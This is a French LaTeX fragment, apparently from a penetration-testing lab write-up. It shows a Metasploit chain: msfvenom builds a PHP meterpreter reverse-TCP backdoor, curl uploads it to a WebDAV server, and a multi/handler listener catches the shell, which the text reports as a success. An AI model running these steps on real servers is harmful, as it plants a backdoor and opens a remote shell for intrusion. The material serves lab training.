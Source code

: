 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{example}
\begin{itemize}
            \item \texttt{\footnotesize search php meterpreter reverse tcp}
            \item \texttt{\footnotesize msfvenom -p php/meterpreter/reverse\_tcp} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4444 -o backdoor.php}
            \item \texttt{\footnotesize curl http://192.168.1.4:8585/uploads/backdoor.php} \\ \texttt{\footnotesize -{}-upload-file backdoor.php}
            \item \texttt{\footnotesize use exploit/multi/handler}
            \item \texttt{\footnotesize set payload php/meterpreter/reverse\_tcp}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set LPORT 4444}
            \item \texttt{\footnotesize run}
        \end{itemize}
        C'est un \textcolor{blue}{\textbf{succès}} ! Vous pouvez voir le résultat sur la figure \ref{fig:successWebDav}.
    \end{example}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.95\linewidth]{images/success-webdav.PNG}
        \caption{Succès de l'accès au serveur en utilisant le service WebDav}
        \label{fig:successWebDav}
    \end{figure}
\end{enumerate}
\textbf{Remarque}: je couvre le maintien de session plus en détail dans la section sur la post-exploitation.
\end{document}
